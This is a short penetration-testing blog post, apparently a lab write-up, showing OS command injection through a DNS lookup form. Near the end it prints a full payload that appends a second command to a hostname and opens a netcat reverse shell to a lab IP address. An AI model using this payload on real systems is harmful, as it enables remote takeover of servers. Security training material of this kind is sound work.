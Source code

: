 ```yaml
---
layout: post
title: OS Command Injection
categories:
  - Web-Pentesting
---
```


<br>As you can see this is DNS lookup but, it has OS Command injection vulnerability using which we can execute system command.

![28.2](https://teckk2.github.io/assets/images/Web%20Pentest/A1/28.2.png)
![29.1](https://teckk2.github.io/assets/images/Web%20Pentest/A1/29.1.png)
![30.1](https://teckk2.github.io/assets/images/Web%20Pentest/A1/30.1.png)
<br>We can even get the reverse shell out of it.
![31.1](https://teckk2.github.io/assets/images/Web%20Pentest/A1/31.1.png)
<br><font color="Black">www.nsa.gov && rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.140.136 4455 >/tmp/f</font>
![32.1](https://teckk2.github.io/assets/images/Web%20Pentest/A1/32.1.png)

<p class="message">
  ~ Hack the World and Stay Noob
</p>

[Twitter](https://twitter.com/Teck__K2) / [Hack The Box](https://www.hackthebox.eu/profile/966) / [CTF Team](https://ctftime.org/team/20102) /
[Teck_N00bs Community Telegram](https://t.me/Teck_N00bs)

<script src="https://www.hackthebox.eu/badge/966"> </script>
